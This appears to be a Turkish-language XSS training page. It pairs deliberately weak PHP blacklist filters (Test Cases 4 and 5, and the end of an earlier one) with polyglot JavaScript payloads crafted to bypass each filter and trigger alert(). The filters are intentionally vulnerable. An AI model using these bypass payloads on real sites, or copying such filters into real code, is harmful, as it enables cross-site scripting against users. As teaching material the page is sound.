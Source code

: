 **Yukarıdaki kodu bypass edecek bir payload**

```html
javascript:/*"/*'/*`/*\"/**/ oninput=alert()//*</title></textarea></style></noscript></noembed></template></option></select></SCRIPT>-->
```

### Test Case 4

```php
<?php
  $userInput = isset($_GET['input']) ? $_GET['input'] : '';

  function filter4($input) {
    $filtered = preg_replace('/<script\b[^>]*>(.*?)<\/script>/is', "", $input);
    $filtered = preg_replace('/on\w+\s*=\s*"(?:.|\n)*?"/i', '', $filtered);
    $filtered = preg_replace('/data:\s*[^\s]*?base64[^\s]*/i', '', $filtered);
    $filtered = str_replace(['expression('], '', $filtered);
    $filtered = str_replace(['iframe', 'eval', 'onload', 'onmouseover', 'ondblclick'], '', $filtered);
    return $filtered;
  }
  echo "<a href=\"" . filter4($userInput) . "\">set link</a>";
?>
```

**Yukarıdaki kodu bypass edecek bir payload**

```html
jaVasCript:/*-/*`/*\`/*'/*"/*/(/* */ onclick=alert() )//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3ciframe/<iframe///>\x3e
```

### Test Case 5

```php
<?php
  $userInput = isset($_GET['input']) ? $_GET['input'] : '';

  function filter5($input) {
    $filtered = preg_replace('/<script\b[^>]*>(.*?)<\/script>/is', "", $input);
    $filtered = preg_replace('/on\w+\s*=\s*"(?:.|\n)*?"/i', '', $filtered);
    $filtered = preg_replace('/data:\s*[^\s]*?base64[^\s]*/i', '', $filtered);
    $filtered = str_replace(['expression('], '', $filtered);
    $filtered = str_replace(['iframe', 'eval', 'onload', 'onmouseover', 'onclick'], '', $filtered);
    return $filtered;
  }
  echo "add comment line";
  echo "<!--" . filter5($userInput) . "-->";
?>
```

**Yukarıdaki kodu bypass edecek bir payload**

```html
jaVasCript:/*-/*`/*\`/*'/*"/*%0D%0A%0d%0a*/(/* */)//</stYle/</titLe/</teXtarEa/</scRipt/--!>\\x3csVg/<sVg/ondblclick=alert()//>
```
